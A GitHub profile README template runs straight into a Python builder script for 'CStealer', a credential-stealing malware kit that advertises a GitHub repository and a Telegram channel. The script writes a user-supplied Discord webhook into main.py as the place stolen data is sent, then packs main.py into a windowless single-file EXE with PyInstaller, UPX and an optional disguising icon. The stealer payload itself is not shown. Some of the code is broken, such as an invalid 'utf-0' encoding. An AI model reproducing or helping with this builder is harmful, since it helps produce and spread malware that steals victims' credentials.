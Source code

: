 - 👋 Hi, I’m @himmy122
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...

<!---
himmy122/himmy122 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
from pystyle import *
from colorama import *
from tkinter import filedialog, Tk
import os
import time
import fade
import ctypes

username = os.getlogin()

os.system("cls")

text = """
 ▄████▄    ██████ ▄▄▄█████▓▓█████ ▄▄▄       ██▓    ▓█████  ██▀███  
▒██▀ ▀█  ▒██    ▒ ▓  ██▒ ▓▒▓█   ▀▒████▄    ▓██▒    ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ░ ▓██▄   ▒ ▓██░ ▒░▒███  ▒██  ▀█▄  ▒██░    ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒  ▒   ██▒░ ▓██▓ ░ ▒▓█  ▄░██▄▄▄▄██ ▒██░    ▒▓█  ▄ ▒██▀▀█▄  
▒ ▓███▀ ░▒██████▒▒  ▒██▒ ░ ░▒████▒▓█   ▓██▒░██████▒░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░  ▒ ░░   ░░ ▒░ ░▒▒   ▓▒█░░ ▒░▓  ░░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒   ░ ░▒  ░ ░    ░     ░ ░  ░ ▒   ▒▒ ░░ ░ ▒  ░ ░ ░  ░  ░▒ ░ ▒░
░        ░  ░  ░    ░         ░    ░   ▒     ░ ░      ░     ░░   ░ 
  ░            ░              ░  ░     ░  ░    ░  ░   ░  ░   ░     
                
                https://github.com/c/cstealer   

                     Press [ENTER] to continue     
                              
"""

Anime.Fade(Center.Center(text), Colors.green_to_blue, Colorate.Vertical, interval=0.050, enter=True)

text2 = """
 ▄████▄    ██████ ▄▄▄█████▓▓█████ ▄▄▄       ██▓    ▓█████  ██▀███  
▒██▀ ▀█  ▒██    ▒ ▓  ██▒ ▓▒▓█   ▀▒████▄    ▓██▒    ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ░ ▓██▄   ▒ ▓██░ ▒░▒███  ▒██  ▀█▄  ▒██░    ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒  ▒   ██▒░ ▓██▓ ░ ▒▓█  ▄░██▄▄▄▄██ ▒██░    ▒▓█  ▄ ▒██▀▀█▄  
▒ ▓███▀ ░▒██████▒▒  ▒██▒ ░ ░▒████▒▓█   ▓██▒░██████▒░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░▒ ▒▓▒ ▒ ░  ▒ ░░   ░░ ▒░ ░▒▒   ▓▒█░░ ▒░▓  ░░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒   ░ ░▒  ░ ░    ░     ░ ░  ░ ▒   ▒▒ ░░ ░ ▒  ░ ░ ░  ░  ░▒ ░ ▒░
░        ░  ░  ░    ░         ░    ░   ▒     ░ ░      ░     ░░   ░ 
  ░            ░              ░  ░     ░  ░    ░  ░   ░  ░   ░     

                
          github.com/can-kat/cstealer | t.me/cstealerr                             
"""

text2 = fade.greenblue(text2)
print(text2)

time.sleep(1.5)
def endHandler():
  os._exit(0)

def checkhook(webhook):
    if not "api/webhooks" in webhook:
        print(f"\n{Fore.RED}Invalid webhook{Fore.RESET}")
        time.sleep(1)
        endHandler()

webhook = input(Fore.CYAN + "\nEnter your Discord webhook URL: " + Style.RESET_ALL)
checkhook(webhook)
filename = "main.py"
filepath = os.path.join(os.getcwd(), filename)
with open(filepath, "r", encoding="utf-8") as f:
        content = f.read()
new_content = content.replace('"YOUR_WEBHOOK_URL"', f'"{webhook}"')
with open(filepath, "w", encoding="utf-0") as f:
        f.write(new_content)
        time.sleep(1)
        print(Fore.GREEN + "Webhook successfully changed" + Style.RESET_ALL)
        time.sleep(2)
        os.system("cls")
        print(text2)
        icon_file = None  # Initialize icon_file with None
        answer = input(Fore.CYAN + "\nDo you want to build EXE file? (Y/N) " + Style.RESET_ALL)
        if answer.upper() == "Y":
              time.sleep(1)
              answer = input(Fore.CYAN + "\nDo you want to add icon? (Y/N) " + Style.RESET_ALL)
              if answer.upper() == "Y":
                    print(Fore.YELLOW + "Build process has been started please wait..." + Style.RESET_ALL)
                    Tk().withdraw()  
                    icon_file = filedialog.askopenfilename(filetypes=[("Icon Files", "*.ico")])
              if icon_file and icon_file.endswith('.ico'):
                    os.system(f"pyinstaller --noconfirm --onefile --windowed --upx-dir=./CStealer_assets/upx --icon {icon_file} {filename}")
                    print(f"\n{Fore.GREEN}{filename} has been converted to EXE with the selected icon.{Fore.RESET}")
              else:
                    print(Fore.YELLOW + "Reminder: File you choose must be have .ico extension!" + Style.RESET_ALL)
                    os.system (f"pyinstaller --noconfirm --onefile --windowed --upx-dir=./CStealer_assets/upx {filename}")
                    print(f"\n{Fore.GREEN}File successfully builded{Fore.RESET}")
                    time.sleep(2)
                    os.system("cls")
                    print(text2)
        elif answer.upper() == "N":
                    time.sleep(2)
                    os.system("cls")
                    print(text2)

        run = input(Fore.CYAN + "\nDo you want to test the build? (Y/N) " + Style.RESET_ALL)
        if answer.upper() == "Y":
                    os.system (f"{filename}")
                    time.sleep(1)
                    os.system("cls")
                    print(text2)
                    print(f"\n{Fore.GREEN}Build process has been done successfully!{Fore.RESET}")
                    time.sleep(1)
                    print(Fore.CYAN + "Don't forget to star the repo and join Telegram channel for support and receive lastest updates!" + Style.RESET_ALL)
                    time.sleep(3)
        elif answer.upper() == "N":
              print(f"\n{Fore.GREEN}Build process has been done successfully!{Fore.RESET}")
              time.sleep(1)
              print(Fore.CYAN + "Don't forget to star the repo and join Telegram channel for support and receive lastest updates!" + Style.RESET_ALL)
              print(Fore.CYAN + "t.me/cstealerr" + Style.RESET_ALL)
              time.sleep(3)
              endHandler()
